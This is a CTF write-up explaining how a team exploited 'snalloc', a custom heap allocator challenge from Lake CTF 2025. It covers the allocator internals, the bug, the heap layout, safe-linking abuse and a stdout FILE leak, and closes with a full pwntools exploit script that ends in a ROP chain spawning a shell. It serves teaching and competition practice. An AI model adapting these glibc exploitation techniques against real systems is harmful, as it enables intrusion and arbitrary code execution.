





+++ 
draft = false
date = 2026-03-01T23:49:32+07:00
title = "snalloc - Lake CTF 2025"
description = "Exploiting a custom allocator with massive feng shui leaklessly"
slug = ""
authors = ["bitfriends","leo_something"]
tags = ["linux","allocator","feng-shui"]
categories = ["ctf"]
externalLink = ""
series = []
+++

## Overview
This was an heap challenge with a custom allocator implementation.
The main program basically let you allocate, edit and free chunks using either the custom allocator or the malloc allocator.

---
## Vulnerability

### Snalloc Internals
In the snallloc implementation, glibc malloc is still used as the "buddy" allocator. It is exclusively used to request blocks of memory that are multiple of `PAGESIZE` in size.

These blocks of memory are called "snabs" in snalloc lingo. 
Snabs provide space for allocations of the same size, and are preceded by a whole page reserved for metadata. There are four possible "orders" of snabs, which determine how big they are internally. The following orders are available for use:

| order | metadata size | user-data size | snab size |
| ----- | ------------- | -------------- | --------- |
| 0     | 1 page        | 1 page         | 2 pages   |
| 1     | 1 page        | 2 pages        | 3 pages   |
| 2     | 1 page        | 3 pages        | 4 pages   |
| 3     | 1 page        | 4 pages        | 5 pages   |

The metadata consists of following properties:
```c
typedef struct snab_t {
  magic_t magic;
  uint64_t flags;
  order_t order;
  bitmap_t bitmap;
  struct snab_t *prev;
  struct snab_t *next;
} snab_t;
```
`magic` is used, to identify metadata pages that contain `snab_t`.
To extend snabs to hold more chunks, `flags` are used in combination with `prev`/`next`, serving as a double linked list. 
The order of a snab is obviously stored in `order`.
Lastly, `bitmap` is used for signaling free and used chunks, by setting the respective bits to 0 or 1.
### Core Vulnerability
Now let's get to the core vulnerability of this challenge: looking at the design of the allocator, one might ask how the metadata page is located when freeing single chunks.

```c
void snfree(void *chunk) {
  snab_t *snab = NULL;

  snab = get_snab_from_chunk(chunk);

  _snfree(snab, chunk);
}
```

Well, `snfree` signals that this logic is defined in `get_snab_from_chunk`:
```c
snab_t *get_snab_from_chunk(void *chunk) {
  snab_t *snab = (snab_t *)((size_t)chunk & ~(PAGE - 1));
  void *snab_min = (char *)snab + PAGE - ORDER_2_SNAB_SZ(SNAB_MAX_ORDER);

  LOG_DEBUG("chunk: %p, page: %p, min_snab: %p\n", chunk, snab, snab_min);

  LOG_DEBUG("page: %p, magic: %#zx\n", snab, SNAB_MAGIC(snab));

  while ((snab->magic != SNAB_MAGIC(snab)) && ((void *)snab >= snab_min)) {
    snab = (snab_t *)((char *)snab - PAGE);
    LOG_DEBUG("page: %p, proper magic: %#zx, actual magic: %#zx\n", snab, SNAB_MAGIC(snab), snab->magic);
  }
  // ...
}
```
As you can see, the current chunks address is rounded down to a page aligned address, from there a loop checks if it can find the magic bytes at the start of the page; if not, check the previous page and so on.

However this approach can be easily exploited: as there can be snabs with an `order` greater than 0. It is wrong to assume that this is a safe way to get the base snab address. This is because the user can just fake snab magic bytes in the first of `n` user pages, making the allocator believe a valid snab is there. As a result, the user can now free a chunk in the next user-data page and fake a snab.
## Exploitation

We had a lot of fun while exploiting this challenge because it needed a lot of heap setup and premeditation, which usually makes people hate heap challenges, but in this case the heap feng shui was neat and straight forward (once we had it all planned out).
### Setup a fake snab_t->magic
The first thing we needed to figure out in order to exploit this vulnerability was how to fake a metadata chunk. This is not straight forward due to the presence of the `magic` field in `snab_t`.
Recall that `SNAB_MAGIC(snab) = ((uint64_t)(snab)) >> 12`, so as we don't know where "snab" is in memory we can't directly forge it's `magic`.

This is where [safe linking](https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation) comes to the rescue.
This mitigation was added in libc 2.32 to make heap corruptions harder to exploit, it basically implements a [mangling algorithm](https://elixir.bootlin.com/glibc/glibc-2.42.9000/source/malloc/malloc.c#L331) to protect forward pointers in tcache and fastbin chunks:
```c
#define PROTECT_PTR(pos, ptr) \
	(__typeof (ptr)) (((size_t) pos >> 12) ^ (size_t(ptr)))
```
Where `pos` is the address of the chunk containing the forward pointer, and `ptr` is the forward pointer to mangle.
This means that the last chunk in a bin will have as next pointer `(pos>>12) ^ 0 = pos >> 12`, which is exactly the same operation `SNAB_MAGIC` uses to compute the magic for a snab!

Our goal is to place a valid magic value at a page aligned offset so as to forge a fake metadata chunk inside of a data chunk. To achieve this we need to put a mangled forward pointer in a place where snalloc will allocate from. 
As snabs are big chunks, with size multiple of 0x1000, they can only be allocated from either an unsortedbin or the top chunk. Unsortedbins don't use the PROTECT_PTR macro and are linked in doubly-linked lists and the top chunks is not in a bin of course.
What we did was the following:
1. Allocate a lot of chunks of the same size using the regular malloc
2. Free 7 of these to fill the tcache
3. Free another chunk, this will be the last one in the fastbins and it's manlged forward pointer will be the `magic`, this will need to be page-aligned to create a fake metadata chunk later. 
4. Trigger [malloc_consolidate](https://elixir.bootlin.com/glibc/glibc-2.42.9000/source/malloc/malloc.c#L4913) to consolidate all the fastbins with the top chunk. To avoid messing too much with snalloc we used the `scanf` trick (by providing an input of 0x800 bytes or more scanf allocates a buffer on the heap and frees it before returning,  this free triggers the consolidation).
5. Allocate an order 1 (or more) snab from the top chunk to get that `magic` in the first user-data page, then freeing a chunk in the second user-data page will use the first one as it's metadata (which is now valid).

### Snabs on the heap
Knowing how to forge a metadata chunk we need to find a way of bypassing ASLR.
Achieving this required some premeditation, you can't just try stuff out, otherwise you'll end up rewriting your exploit from scratch several times.
The first step is to understand how snalloc allocations look like in memory. Also note that snabs of the same order are linked in a doubly-linked list.

Padding chunks are there because `posix_memalign` page-aligns the chunk data (the actual data of the chunk, don't mistake it with user-data page), leaving the metadata of the chunk (`prev-size` and `size`) in the page before, this implies that the page before has only 0xff0 bytes available, which is not enough for a `posix_memalign` allocation.

Here you can see `prev-size` and `size` highlighted in red.
### Heap shaping
With all of this knowledge we can finally design the heap feng shui.
Our first goal was to get ASLR leaks and to do that we decided to target the doubly-linked list pointers.
The layout we came up with was the following.

The basic idea here is to create an order 3 snab that overlaps with an order 1 snab, then we can use the first one to partial override a next pointer in the second one (with 4 bits of bruteforce).
We also carefully placed a free smallbin chunk and forged a snab metadata struct around it, using it's fd as a valid next pointer inside libc `main_arena`. 

We then partially overrode that pointer to link the stdout file (Note that `main_arena` is usually near `_IO_2_1_stdout_`, the latter can be reached with a 4 bit bruteforce).

At this point it's enough to fill the `snab->bitmap` of both the overlapped snab and the fake snab on the smallbin, to place the next order 1 allocation over the stdout file struct.

With an allocation over stdout we simply used [this technique](https://github.com/nobodyisnobody/docs/tree/main/using.stdout.as.a.read.primitive) to get libc and stack leaks by partially overriding the file struct.
Finally we changed the smallbin pointer (`snab->next`) to allocate a chunk on the stack frame of `do_cmd()` and write a ret2libc payload to gain RCE.

### Some notes
1. Before performing the heap feng shui we had to allocate three order 0 snabs to increase `snab_count` (which keeps track of the total number of allocated snabs), we had to do this step to avoid an integer underflow that would have set `snab_count` to a huge number, preventing us from allocating more snabs.
2. The "size chunk" is simply a chunk used to change the ptmalloc size metadata of the fake snab.
3. To pass all the checks performed by the snab allocator we set `snab->magic =  SNAB_AUTO | SNAB_EXTEND`
4. This whole heap setup works because there are no stringent checks on the integrity of the doubly-linked list and the `snab->magic` for "next" snabs.
5. The whole exploit requires 8 bits of bruteforce (4 for each partial override)

### Final Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("chal_patched")
libc = ELF("libc.so.6")

context.binary = exe
context.terminal = ["alacritty", "-e"]

NC_CMD = "nc chall.polygl0ts.ch 6019"
gdbscript = \
"""
set resolve-heap-via-heuristic force
b *snab_free_chunk_get+285
"""

def conn():
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = process([exe.path])
        gdb.attach(r, gdbscript=gdbscript)
    else:
        r = remote(NC_CMD.split(" ")[1], int(NC_CMD.split(" ")[2]))

    return r


def alloc(r, idx, sz, alloc):
    r.sendlineafter(b">", b"1")
    r.sendlineafter(b">", str(alloc).encode())
    r.sendlineafter(b">", str(idx).encode())
    r.sendlineafter(b">", str(sz).encode())

def edit(r, idx, data, alloc):
    r.sendlineafter(b">", b"2")
    r.sendlineafter(b">", str(alloc).encode())
    r.sendlineafter(b">", str(idx).encode())
    r.sendlineafter(b">", data)

def delete(r, idx, alloc):
    r.sendlineafter(b">", b"3")
    r.sendlineafter(b">", str(alloc).encode())
    r.sendlineafter(b">", str(idx).encode())

def debug(r):
    script = \
    """
    set resolve-heap-via-heuristic force
    b readline
    """
    gdb.attach(r, script)

MALLOC = 1
SNALLOC = 2

def main():
    while True:
        try:
            r = conn()

            # fill two order 0 snab and allocate another one
            # this increases snab_count (this is essential for later)
            for i in range(129):
                alloc(r, 0, 0x10, SNALLOC)
            
            # allocate tcache_perthread
            # consume the 0xff0 unsorted bins between the snabs
            # these chunks were padding that kept snabs page-aligned
            for i in range(47):
                alloc(r, 0, 0xe8, MALLOC)
            alloc(r, 0, 0xb8, MALLOC)

            # allocate 0xff0 bytes of padding after the third snab
            for i in range(4):
                alloc(r, 0, 0xb8, MALLOC)
            alloc(r, 0, 0xa8, MALLOC)
            for i in range(118):
                alloc(r, i, 0x58, MALLOC)

            # now the next allocation's data will be page alligned
            
            # we can forge a fake metadata chunk
            alloc(r, 118, 0x58, MALLOC)
            fake_metadata = p64(0) # magic (this will be overwritten)
            fake_metadata += p64(3) # flags
            fake_metadata += p64(1) # order
            fake_metadata += p64(0x1) # mark the first chunk as allocated
            edit(r, 118, fake_metadata, 1)

            # fill 0x60 tcache
            for i in range(7):
                delete(r, i, MALLOC)

            # free the rest of the chunks into fastbins
            for i in range(118, 6, -1):
                delete(r, i, MALLOC)

            # trigger fastbins consolidation
            # they also consolidate with the top chunk
            r.sendlineafter(b">", b"1\n1\n0\n" + b"0"*0x810)

            # NOTE: freeing the chunk containing the fake metadata first
            # was done to replace the "magic" with a mangled fastbin fd
            # as this was the first element to be freed it's fd would be 0,
            # thus the mangled pointer would be (address>>12),
            # which is a valid "magic"

            # now we have a valid fake metadata chunk far down in the top chunk

            # allocate an order 3 snab and fill the first page
            alloc(r, 0xffe, 0x100, SNALLOC)
            for i in range(14):
                alloc(r, 101+i, 0x100, SNALLOC)
                
            # This will be the last chunk in the page and we will use it
            # to set the size of the fake snab
            size_chunk = 14
            alloc(r, size_chunk, 0x100, SNALLOC)
            edit(r, size_chunk, b"C"*0xf8 + p64(0x3011), SNALLOC) # set fake size

			# this overlaps the fake metadata chunk
            fake_metadata_chunk = 0xffd
            alloc(r, fake_metadata_chunk, 0x100, SNALLOC) 
            # fill the whole user-data page (the second one in the order 3 snab)
            for i in range(15):
                alloc(r, 101+i, 0x100, SNALLOC)
            
            # this will overlap with the first allocation of the fake snab
            # (this chunk is located at the start of the third page of user-data
            # of the order 3 snab)
            alloc(r, 15, 0x100, SNALLOC)
            edit(r, 15, b"B"*0x100, SNALLOC)

            # VULN: delete the chunk we just allocated, 
            # this will free our fake metadata chunk
            # This frees the whole snab which has order 1 (size 0x3010 set above)
            # and consolidates with the top chunk
            # WE NOW GAINED AN OVERLAPPING CHUNK PRIMITIVE
            delete(r, 15, SNALLOC)
            
            # consume the 0x980 bytes unsortedbin left above the order 3 snab
            for i in range(19):
                alloc(r, i, 0x78, MALLOC)

            # allocate a bunch of stuff from the top chunk
            # These chunks are overlapped by the order 3 snab
            # and will be turned into a big overlapping chunk (size 0x15a0)
            overlapping_chunk = 0xfff
            alloc(r, overlapping_chunk, 0x78, MALLOC)
            for i in range(31):
                alloc(r, i, 0x78, MALLOC)
            alloc(r, 0, 0x18, MALLOC)
            for i in range(8):
                alloc(r, i+1, 0xa8, MALLOC)
            
            # free the last 8 allocations (0x580 bytes) (fill 0xb0 tcache)
            # the order doesn't matter as we don't need page alignment 
            # for the fake snab metadata
            delete(r, 8, MALLOC)
            delete(r, 7, MALLOC)
            delete(r, 6, MALLOC)
            delete(r, 5, MALLOC)
            delete(r, 4, MALLOC)
            delete(r, 2, MALLOC)
            delete(r, 1, MALLOC)
            delete(r, 3, MALLOC) # this goes into smallbins (libc pointer here)
            # also note that the smallbin is placed exactly where the next
            # allocation from the order 3 snab will be
            
            # merge the chunks allocated above by faking a size of 0x15a0
            # this is now a big overlapping chunk
            edit(r, size_chunk, b"C"*0xf8 + p64(0x15a1), SNALLOC)

            # free the overlapping chunk to top chunk
            delete(r, overlapping_chunk, MALLOC)

            # allocate an order 1 snab and fill it with 0x80 chunks
            # this will be allocated from the old 0x3011 chunk, so it's still
            # overlapped by the order 3 snab
            for i in range(64):
                alloc(r, 1, 0x80, SNALLOC)

            # this allocation will allocate another order 1 snab
            # and add a next pointer to the first one
            alloc(r, 1, 0x80, SNALLOC)

            # now we partial override the next pointer of the first snab
            # to create a chain with the smallbin libc pointer, 
            # this is possibile beacuse we increased snab_count above).
            # We also set the snab as full so the next allocation will go to the
            # next one in the linked list, which is the freed smallbin with the
            # libc pointer
            bitmap = 0xffffffffffffffff
            # 4 bit bruteforce
            fake_metadata = flat(0, 3, 1, bitmap, 0) + p16(0x7160)
            edit(r, fake_metadata_chunk, fake_metadata, SNALLOC)
            
            # this chunk gets allocated from the order 3 snab 
            # (which overlaps our forged snab)
            # this chunk overlaps with the smallbin and it's useful to 
            # partial override it's pointer
            smallbin_overlap_chunk = 1
            alloc(r, smallbin_overlap_chunk, 0x100, SNALLOC)
            
            # we partial override the bk of the smallbin to make it point to
            # _IO_2_1_stdout_
            # We also mark the snab as full so next allocation overlaps stdout
            bitmap = 0xffffffffffffffff 
            # another 4 bit bruteforce
            fake_metadata = flat(0, 3, 1, bitmap, 0) + p16(0x95b0)
            edit(r, smallbin_overlap_chunk, b"F"*0x60 + fake_metadata, SNALLOC)

            # allocate from the order 1 snab (overlap stdout)
            alloc(r, 0xe00, 0x80, SNALLOC)
            # partial override stdout to get libc leak
            payload = b"A"*0x10 + p64(0xfbad1887) + p64(0)*3 + p8(0)
            edit(r, 0xe00, payload, SNALLOC)

            # leak libc
            r.recvuntil(b"content> ")
            libc.address = u64(r.recvn(8)) - 0x20a644

            # check if the leak is correct (otherwise we need to brute more)
            if libc.address & 0xfff != 0:
                r.close()
                continue
            log.info(f"libc: {hex(libc.address)}")

            # partial override stdout again to gain arbitrary read and leak stack
            payload = b"A"*0x10 
            payload += p64(0xfbad1887) 
            payload += p64(0)*3 
            payload += p64(libc.sym.environ) 
            payload += p64(libc.sym.environ+0x20)*3 
            payload += p64(libc.sym.environ+0x21)
            edit(r, 0xe00, payload, SNALLOC)
            
            # leak stack
            r.recvuntil(b" ")
            stack = u64(r.recvn(8)) - 0x160
            log.info(f"stack: {hex(stack)}")

            # use the chunk overlapping the smallbin to change the snab->next to
            # the return address of do_cmd()
            bitmap = 0xffffffffffffffff
            fake_metadata = flat(0, 3, 1, bitmap, 0) + p64(stack - 0x1000)
            edit(r, smallbin_overlap_chunk, b"F"*0x60 + fake_metadata, SNALLOC)

            # allocate on the stack
            alloc(r, 0xe01, 0x80, SNALLOC)

            # ROP on the retaddr of do_cmd()
            POP_RDI = libc.address + 0x0000000000102dea
            rop_chain = p64(POP_RDI+1) # ret
            rop_chain += p64(POP_RDI)
            rop_chain += p64(next(libc.search(b"/bin/sh")))
            rop_chain += p64(libc.sym.system)
            payload = b"A"*0x80
            # debug(r)
            edit(r, 0xe01, rop_chain, SNALLOC)

            # GG
            r.sendline(b"ls")
            r.sendline(b"cat f*")
            r.sendline(b"cat /f*")

            r.interactive()
            break
        except:
            r.close()


if __name__ == "__main__":
    main()
```

#### Something something heap feng shui
This archaeological finding is what we used to communicate during the CTF at 5 am lmao

